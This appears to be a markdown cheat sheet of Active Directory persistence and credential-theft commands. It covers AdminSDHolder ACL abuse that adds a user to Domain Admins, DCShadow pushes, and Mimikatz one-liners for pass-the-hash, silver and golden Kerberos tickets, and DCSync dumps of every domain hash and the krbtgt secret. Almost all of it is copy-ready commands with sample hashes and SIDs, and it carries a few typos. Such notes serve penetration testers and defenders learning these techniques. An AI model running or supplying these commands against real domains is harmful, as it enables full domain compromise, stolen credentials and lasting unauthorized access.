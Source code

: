 ### AdminSDHolder Persistence
```
The User John has granted GenericAll Privilege.

Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName Joh -Verbose -Rights All

#The Following could be verify whether The unprivilege user John has GenericAll rights on the AdminSDHolder.

Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference -match 'John'}

net group "domain admins" John /add /domain
```

###  DCShadow Persistence

DCShadow is persistence technique used by adversary that allow  an adversary to push unauthorized changes into the environment by modifying active directory objects.domain privileges is requiredto carry out this attack

DCShadow is persistence technique used by adversary to maintain access on compromise domain controller. to carry out such a persistence technique two active administrative session is required.one of which has to be domain privilege session and one of another session has to be system privilege session where compromised box.
```
lsadump::dcshadow /object:John-PC$ /attribute:badpwdcount /value=7777
lsadump::dcshadow /push

```
### Mimikatz 

| Pass-the-Hash  |
| ------------- |
|Invoke-Mimikatz -Command '"sekurlsa::pth /user:administrator /domain:ninja.corp  /target:ninja.corp /ntlm:a87f3a337d73085c45f9416be5787d86 /ptt "'|

|Silver Tickets  |
| ------------- |
|kerberos::golden /user:Administrator /domain:testlab.local /sid:S-1-5-21-1516486103-3973840447-1748718438 /target:ninja.corp  /rc4:47b1d9d581f29b3b43845692bd4a0322 /service:cifs /ptt|

|Golden Tickets |
| ------------- |
|Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:ninja.corp /sid: S-1-5-21-3107064655-183826745-1492997513 /krbtgt:a89f4db26e65cdf4bb6cb6c1a1990eec /ptt" '|
|Invoke-Mimikatz -Command '"kerberos::golden /user:evil /domain:ninja.corp /sid: S-1-5-21-3107064655-183826745-1492997513 /krbtgt:a89f4db26e65cdf4bb6cb6c1a1990eec /ptt" '|
|Invoke-Mimikatz -Command '"kerberos::golden /user:MeMe /domain:ninja.corp /sid: S-1-5-21-3107064655-183826745-1492997513 /krbtgt:a89f4db26e65cdf4bb6cb6c1a1990eec /ptt" '|
|kerbeos::golden /user:Administrator /krbtgt:HASH_KRBTGT /domain:ninja.corp /sid:S-1-5-21-2941561648-383941485-1389968811 /sids:S-1-5-SID-SECOND-DOMAIN-519 /ptt|

|DCSync |
| ------------- |
|lsadump::dcsync /domain:pentestlab.local /all /csv|
|Invoke-Mimikatz -Command '"lsadump::dcsync /domain:insomnia.ninja.corp /all /csv"'|
|Invoke-Mimikatz -Command '"lsadump::dcsync /user:krbtgt"'|
|Invoke-Mimikatz -Command '"lsadump::lsa /inject /name:krbtgt"'|
